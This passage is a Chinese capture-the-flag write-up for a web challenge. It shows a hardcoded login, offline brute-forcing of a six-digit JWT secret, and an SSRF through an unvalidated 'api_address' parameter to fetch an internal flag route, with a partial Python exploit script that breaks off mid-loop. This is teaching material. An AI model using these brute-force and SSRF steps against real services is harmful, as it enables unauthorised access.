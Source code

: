 6位数数字字符串，很快就能爆破

```
users = {
    'admin': admin_pass,
    'amiya': "114514"
}
```

我们在这发现，有一个有效的用户amiya，密码是114514，通过登录，我们可以获得一个有效的token，据此能在本地认证签名 `secret_key` 的有效性（因为目标主机有认证次数限制）。

先爆破出secret_key，然后查看登录后的逻辑：

前端请求 `/execute` 指定 `api_address`，而 `api_address` 可控且没有校验，存在 SSRF 漏洞。

定位到源代码开头：

python

```
from flag import get_random_number_string
```

这是出题人故意漏的信息，将函数写在了 flag 模块并 import，提示查看 `flag.py`

![image-20241031195919893](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202410311959058.png)

```
@get_flag.route("/fl4g")
# 如何触发它呢?
def flag():
    return FLAG
```

TIP

Python 程序可以 import 同一目录下的 `.py` 文件而不必创建 `__init__.py` 等标记模块的文件。因此这里同级目录下有文件名为 `flag.py` 的程序，模块名为 `flag`.

我们的操作很明确了：利用 `/execute` 路由的 SSRF 漏洞让服务器自己访问 `http://localhost:5001/fl4g`，即访问 `/execute?api_address=http://localhost:5001/fl4g`.

EXP 如下：

```
import time
import requests
import jwt
import sys

if len(sys.argv) < 2:
    print(f"Usage: python {sys.argv[0]} <url>")
    sys.exit(1)

url = sys.argv[-1]


def get_number_string(number,length):
    return str(number).zfill(length)

print("[+] Exploit for newstar-zhezhaopianshinima")
print("[+] Getting a valid token from the server")

LENGTH = 6
req = requests.post(url+"/login", data={"username":"amiya","password":"114514"})
token = req.cookies.get("token")

print(f"[+] Got token: {token}")
print("[+] Brute forcing the secret key")
for i in range(1000000):
    secret_key = get_number_string(i,LENGTH)
```
